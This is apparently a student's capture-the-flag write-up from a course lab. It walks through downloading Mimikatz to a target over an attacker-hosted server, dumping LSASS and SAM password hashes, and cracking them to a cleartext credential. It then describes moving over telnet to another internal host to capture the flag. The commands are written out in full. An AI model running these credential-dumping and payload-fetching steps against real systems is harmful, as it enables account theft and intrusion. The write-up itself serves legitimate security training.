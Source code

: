 


# f9038f

## HASH CRACKING

- Download the .exe file of Mimikatz: https://github.com/ParrotSec/mimikatz

- Set up a Python server running in the directory you have the mimikatz.exe, ensure it is the one with 64 bits.

- Upload it to the target after entering to powershell:

`Invoke-WebRequest -Uri http://192.168.0.4:80/mimikatz.exe -OutFile C:\tools\mimikatz\mimikatz.exe`

`Remove-Item -Path "C:\tools\mimikatz.exe"`

- **mimikatz moment**: `./mimikatz.exe`

```bash
	log
	privilege::debug
	sekurlsa::logonpasswords // dumping LSASS passwords
	//extraction of sam hashes
	token::elevate
	lsadump::sam // dumping sam (security account manager) hashed it stores passwords of local accounts
```


- Crack some of the hashed that has been obtained from the previous command with hashcat, the input should only be the hash:
  
```bash
	hashcat -m 1000 -a 0 -o cracked_sam.txt sam.txt pass.txt
```
Hashcat actually did not work for me and I ended up using https://crackstation.net/
	
- After trying some of them I got this interesting credentials:
	`richard_gill:velvety`
	
## LATERAL MOVEMENT
- The passwords that have be been retrieved can be useful to other machines that we can discover through the target 10.0.3.12. If in the windows terminal you do `ipconfig`:
```bash
	Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : europe-west1-b.c.en2720-2017.internal
   Link-local IPv6 Address . . . . . : fe80::78c9:9662:5446:b39%5
   IPv4 Address. . . . . . . . . . . : 10.0.3.12
   Subnet Mask . . . . . . . . . . . : 255.255.255.255
   IPv4 Address. . . . . . . . . . . : 10.41.227.12
   Subnet Mask . . . . . . . . . . . : 255.255.255.255
   Default Gateway . . . . . . . . . : 10.41.224.1
```
- One thing I noticed was the DNS domain = **10.0.3.229** to which 10.0.3.12 has connectivity. 
  
```bash
nslookup europe-west1-b.c.en2720-2017.internal
	Server:  en2720-w21-sea-turtle
	Address:  10.0.3.229
```
	
- It has a telnet service opened if we do nmap to that IP we see that it has telnet service and the telnet port is 23:
```bash
	└─$ telnet 10.0.3.229 23
	Trying 10.0.3.229...
	Connected to 10.0.3.229.
```
The credentials found gave me access to the server and I found the flag:

	flag{f9038f2aae9c723fc69b516d4beb4774b2510cfcf2fff7}

	


	
